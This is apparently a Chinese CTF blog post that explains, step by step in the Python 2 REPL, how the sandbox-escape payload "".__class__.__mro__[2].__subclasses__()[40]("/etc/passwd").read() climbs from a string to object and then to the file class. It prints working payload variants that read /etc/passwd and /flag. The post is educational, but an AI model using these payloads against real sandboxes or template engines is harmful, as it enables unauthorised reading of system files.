 ```yaml
---
title: 关于python魔术方法payload："".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() 的解释
date: 2019-01-02 00:00:00
categories:
- CTF/Web
tags: python
---
```


## 总览

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

其实就是类似java的反射，通过一个对象找到另一个对象，这里通过一个字符串对象，找了一个文件对象，然后初始化，读取，就是这么个事。

```python

# 获得一个字符串实例
>>> ""
''

# 获得字符串的type实例
>>> "".__class__ 
<type 'str'>

# 获得其父类
>>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)

# 获得父类中的object类
>>> "".__class__.__mro__[2] 
<type 'object'>

# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>

# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__() 
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40] 
<type 'file'>

# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd") 
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>

# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>

# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged 
User:/var/empty:/usr/bin/false
root:*:0:0:System 
Administrator:/var/root:/bin/sh

```

## 问题

### 问

但我怎么知道```__subclasses__```是一个方法，而不是一个直接可以返回数组的变量呢？我又怎么知道什么类有什么方法或者属性呢？比如我如何知道应该用```__mro__```属性去找父类？而```__mro__```是什么类的成员方法？？

### 答

首先```__subclasses__```是方法还是属性可以根据提示来判断如：

```python
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>
```

另外，python中有一个内置函数是dir()，可以用这个函数来查看传入参数的成员方法以及属性，我们来尝试一下

```python
>>> dir("")
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
>>> dir("".__class__)
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```
首先我们看到```dir("")与dir("".__class__)```的结果是完全一样的

按照```"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()``` 的利用方法，接下来应该使用```__mro__```这个属性，来获得父类，但是我并没有在```dir("".__class__)```中看到这个属性，这是为什么呢？```__mro__```属性在哪呢？

## type与object

为了解释上面的这个问题，我们先要了解在python中的一个哲学问题，就是type与object的问题，这二位就像是哲学上的物质与意识，不仅相互关联，而且不可分割。

[Python 的 type 和 object 之间是怎么一种关系？](https://blog.csdn.net/piglite/article/details/78294112)

[python中的type和object详解](https://www.cnblogs.com/busui/p/7283137.html)

在Python的世界中：
- object是父子关系的顶端，所有的数据类型的父类都是它
- type是类型实例关系的顶端，所有对象都是它的实例的

也就是说这里不同于我们之前学到的类与对象的关系，这里有两条线，一个是类的关系，一个是实例的关系。也就是说：
- object和type都既是类又是实例
- object是type的一个实例
- type是object的子类

## ```__class__```与```__base__```属性

- ```__class__```属性可以沿着实例这条链往上走一个
- ```__base__```属性可以沿着父子类关系这个条链往上走一个

```python
>>> "".__class__
<type 'str'>
>>> "".__class__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__.__base__.__class__
<type 'type'>
```

可见之前的结论：object是type的一个实例， type是object的子类

```python
>>> "".__class__
<type 'str'>

>>> "".__base__
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute '__base__'

>>> "".__class__.__base__
<type 'basestring'>
```

我们可以看到""这个字符串对象中是没有```__base__```这个属性的，而```"".__class__```却可以获得，但是我们在前面的dir()函数中传入```""和"".__class__```所获得的结果是一样的啊，这两个都没有```__base__```属性，那么这个属性到底在哪呢？

## ```""```与```"".__class__```的区别

type()函数，用来返回变量的类型，返回的是一个type实例

```python
>>> ""
''
>>> "".__class__
<type 'str'>
>>> type("")
<type 'str'>
>>> type("".__class__)
<type 'type'>
```

我们可以看到字符串变量```""```是```<type 'str'>```的一个实例，而```<type 'str'>```是一个```<type 'type'>```实例，而其实```__base__```这个属性是在```<type 'type'>```中的属性。

## 真相

真相就在```<type 'type'>```中

```python
>>> "".__class__.__class__
<type 'type'>
>>> dir("".__class__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
>>> dir(type("".__class__))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
猛然发现这个里有```__base__,__class__,__subclasses__,__mro__```，原来这些玩意都在这里啊，也就是说这几个属性，只要是type实例应该都有。

## 重看利用

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

1. 通过```"".__class__```获得一个```<type 'str'>```的实例
2. 因为```<type 'str'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的__mro__属性获得其父类的顶端```<type 'object'>```
3.  因为```<type 'object'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的```__subclasses__()```函数获得object的所有子类
4.  找到第40个子类是文件，然后初始化调用读取方法即可


## 非得用```__mro__```么

我们看到，我们无非是要找到```<type 'object'>```然后调用```__subclasses__()```函数，因为object是父类的顶端，也即是用```__base__```到顶，所以如下方式均可成功：

```python

>>> "".__class__.__base__.__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
>>> type("".__class__).__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
```
## 总结函数

- ```__base__```：子类找父类
- ```__subclasses__()```：父类找子类
- ```__class__```：子实例找父实例

看起来好像没有父实例找子实例的方法或者属性


